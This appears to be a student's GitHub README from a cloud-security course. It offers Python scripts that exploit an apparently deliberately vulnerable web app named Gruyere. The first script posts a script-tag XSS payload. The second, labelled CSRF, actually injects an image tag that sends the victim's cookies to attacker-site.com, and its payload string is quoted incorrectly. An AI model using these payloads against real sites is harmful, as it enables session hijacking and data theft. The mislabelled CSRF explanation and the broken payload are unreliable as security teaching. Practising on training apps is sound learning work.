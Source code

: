 # Cloud-Security-2023
Create code that can automatically exploit its documented vulnerabilities.

**Cross-Site Scripting(XSS attack)**-harmful because they can be used to steal sensitive information, like login credentials or personal data from users.
How to execute an XSS attack- the payload variable contains a script tag with malicious JavaScript code. Problem arises if the server doesn't correctly/properly sanitize or encode the feedback parameter when rendering it in an HTML response. Consequence- script modified on the client side (XSS attack)

**Python Code for Cross-Site Scripting**

import requests  
payload = "<script>alert('XSS Attack!');</script>" #Payload variable mentioned above- site of vulnerability 
document_id = "your-document-id"
url = f"http://gruyere-app.com/feedback?id={document_id}" #This is the target website whereby the document ID has been appended to reach specific endpoint
data = {"feedback": payload}  #key-value pair received by the server where the data is processed(ie value which the payload variable is processed)
response = requests.post(url, data=data)
print(response.text)

**Cross Site Request Forgery (CSRF)**-tricks you into performing actions (unknowingly) on a website you trust, using your already authenticated session. It achieves this using login cookies and after authentication, carries out the request made. This request is a CSRF attack and can be mitigated using anti-CSRF tokens.

**Python Code for Cross-Site Request Forgery**

import requests  
payload = '<img src="http://attacker-site.com/steal?cookie=" + document.cookie + \'">\';' #Assigning a payload variable which contains malicious content in the form of html image tag sourced from the url shown.'document.cookie' is important as it stores the cookies associated with the web page the attacker wants to make a request to. 
url = "http://gruyere-app.com/settings" #Target URL
data = {"description": payload}
response = requests.post(url, data=data) #'post' allows us to send a http request and in this case, to the target URL.
print(response.text)
